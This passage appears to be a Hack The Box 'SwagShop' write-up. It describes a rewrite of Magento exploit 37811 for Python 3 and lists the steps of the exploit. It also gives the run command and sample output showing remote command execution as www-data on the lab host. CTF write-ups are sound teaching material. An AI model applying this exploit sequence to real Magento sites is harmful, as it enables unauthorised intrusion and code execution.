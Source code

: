 Again, I couldn't help myself... I refactored the script! But this time it was probably needed, as the original exploit required the `mechanize` Python package which I found a pain to work with. Even installing it on Kali to work with Python 2 was annoying, so a rewrite seemed useful. I modified the exploit to:

- Port to Python 3
- Refactor to use requests library instead of `mechanize`
- Added auto-install date fetching
- Tidied up code for PEP8

The process was also really useful to understand the flow of the exploit. The original script was pretty cryptic, but after the rewrite, it made perfect sense.

- Log in with a valid-user
- Get the install date of Magento, which is needed for the exploit to work
- Get a URL for an AJAX call, with the dynamic key needed to call it
- Make the AJAX call and get the source URL to send the exploit to
- Convert the payload to base64
- Hash the payload combined with the install date
- Make the AJAX call with the payload and unique hash

The modified script is available from [`37811_mod.py` exploit](exploits/37811_mod.py). It can be run without any arguments, as they are all hardcoded in the script. So, modify the defaults and run with...

```none
python3 37811_mod.py
```

Below is some example output that helps print out some of the important values from the exploit process.

```none
└─$ python3 37811_mod.py
[+] target: http://swagshop.htb
[+] command: id
[+] username: username
[+] password: password

[+] Determine install date...
[+] localxml_url: http://swagshop.htb/app/etc/local.xml
[+] install_date: Wed, 08 May 2019 07:23:09 +0000

[+] Log in to admin panel...
[+] url: http://swagshop.htb/index.php/admin/dashboard/ajaxBlock/key/27380afdb5f8ca62e26b7c398fdb3efc/
[+] key: h12YcameEXRiiY5K
[+] fetch_url: http://swagshop.htb/index.php/admin/dashboard/ajaxBlock/key/27380afdb5f8ca62e26b7c398fdb3efc/block/tab_orders/period/2y/
[+] fetch_params: {'isAjax': False, 'form_key': 'h12YcameEXRiiY5K'}

[+] Run exploit...
[+] exploit_url: http://swagshop.htb/index.php/admin/dashboard/tunnel/key/8409bd35ca9733f1c699952f26f27206/
[+] r.status_code: 500
[+] r.text: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

